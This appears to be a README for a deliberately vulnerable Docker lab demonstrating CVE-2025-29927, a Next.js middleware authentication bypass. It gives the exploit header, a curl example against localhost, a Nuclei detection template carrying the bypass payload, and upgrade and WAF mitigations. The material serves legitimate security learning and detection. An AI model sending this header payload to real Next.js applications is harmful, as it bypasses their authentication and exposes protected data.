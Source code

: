 # CVE-2025-29927: Next.js Middleware Authorization Bypass

## Description

This lab demonstrates a critical vulnerability in Next.js middleware that allows attackers to completely bypass security controls through the `x-middleware-subrequest` header manipulation. The vulnerability affects all Next.js versions from 11.1.4 through 15.2.2, impacting applications using middleware for authentication, authorization, or any other security controls.

## Vulnerability Details

- **CVE ID**: CVE-2025-29927
- **CVSS Score**: 9.1 Critical (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N)
- **Affected Versions**: Next.js 11.1.4 - 15.2.2
- **Attack Vector**: Middleware Bypass via x-middleware-subrequest Header
- **Impact**: Authentication Bypass, Authorization Bypass, CSP Bypass, Potential DoS
- **CWE**: CWE-287 (Improper Authentication)

## Lab Setup

### Prerequisites

- Docker
- Docker Compose

### Running the Lab

1. Start the vulnerable application:
   ```bash
   docker-compose up -d
   ```

2. The application will be available at:
   - Main application: http://localhost:3000
   - Protected routes:
     - Dashboard: http://localhost:3000/dashboard
     - Admin Panel: http://localhost:3000/admin
     - Profile: http://localhost:3000/profile
     - API Secret: http://localhost:3000/api/secret

## Vulnerability Exploitation

The vulnerability can be exploited by adding the `x-middleware-subrequest` header with specific values depending on the Next.js version:

### For Next.js 14.0.0 (Lab Version):
```http
GET /admin
Host: localhost:3000
X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware
```

You can test this using curl:
```bash
curl -H "X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware" http://localhost:3000/admin
```

## Protected Resources

The lab includes several protected resources:
1. `/dashboard` - Protected dashboard page
2. `/admin` - Protected admin panel
3. `/profile` - Protected user profile
4. `/api/secret` - Protected API endpoint

All these routes are protected by middleware and will redirect to `/unauthorized` unless bypassed.

## Nuclei Template

```yaml
id: CVE-2025-29927

info:
  name: Next.js Middleware Bypass
  author: pdresearch,pdteam
  severity: critical
  description: |
    Next.js contains a critical middleware bypass vulnerability affecting versions 11.1.4 through 15.2.2.
    The vulnerability allows attackers to bypass middleware security controls by sending a specially crafted
    'x-middleware-subrequest' header, which can lead to authorization bypass and other security control circumvention.
  reference:
    - https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware
    - https://github.com/vercel/next.js/security/advisories/GHSA-f82v-jwr5-mffw
    - https://slcyber.io/assetnote-security-research-center/doing-the-due-diligence-analysing-the-next-js-middleware-bypass-cve-2025-29927/
  remediation: |
    Upgrade to Next.js 14.2.25 or 15.2.3 or later.
    If upgrading is not possible, block the x-middleware-subrequest header at the WAF or server level.
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N
    cvss-score: 9.1
    cwe-id: CWE-287
  metadata:
    max-request: 1
    shodan-query: x-middleware-rewrite
    fofa-query: x-middleware-rewrite
    product: next.js
    vendor: zeit
  tags: cve,cve2025,nextjs,middleware,auth-bypass

flow: |
  http(1)
  for(let endpoint_urls of iterate(template.endpoints)){
    set("endpoints", endpoint_urls)
    http(2) && http(3)
  }

http:
  - method: GET
    path:
      - "{{BaseURL}}"

    matchers:
      - type: word
        part: body
        words:
          - "_next/static"
        internal: true

      - type: word
        part: header
        words:
          - "Next.js"
        internal: true

    extractors:
      - type: regex
        name: endpoints
        part: body
        group: 1
        regex:
          - "href=['\"](\\/[^\\.\"']+)['\"]"
        internal: true

  - method: GET
    path:
      - "{{BaseURL}}{{endpoints}}"

    matchers:
      - type: dsl
        dsl:
          - contains_any(to_lower(header), 'x-middleware-rewrite', 'x-middleware-next', 'x-middleware-redirect') && status_code != 200
          - contains_any(to_lower(location), 'unauthorized') && status_code != 200
        internal: true

  - method: GET
    path:
      - "{{BaseURL}}{{endpoints}}"
    headers:
      X-Middleware-Subrequest: "src/middleware:nowaf:src/middleware:src/middleware:src/middleware:src/middleware:middleware:middleware:nowaf:middleware:middleware:middleware:pages/_middleware"

    matchers:
      - type: dsl
        dsl:
          - status_code == 200
```

## Mitigation

1. Upgrade to patched versions:
   - Next.js 15.2.3 or later
   - Next.js 14.2.25 or later for 14.x users

2. If unable to upgrade, implement a WAF rule or reverse proxy configuration to block requests containing the `x-middleware-subrequest` header.

## Reference

- [Next.js Middleware Request Corruption Research](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware)
- [Security Advisory](https://github.com/vercel/next.js/security/advisories/GHSA-f82v-jwr5-mffw)

## Security Notes

This is a deliberately vulnerable application for security research and learning purposes. Do not deploy in production environments.

## Nuclei Template URL : [CVE-2025-29927](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2025/CVE-2025-29927.yaml)

## Nuclei Command :

```bash
nuclei -t CVE-2025-29927.yaml -u http://0.0.0.0:3000 -vv
```

![image](https://github.com/user-attachments/assets/dc3683aa-e110-440c-b383-632b6e0bdef4)

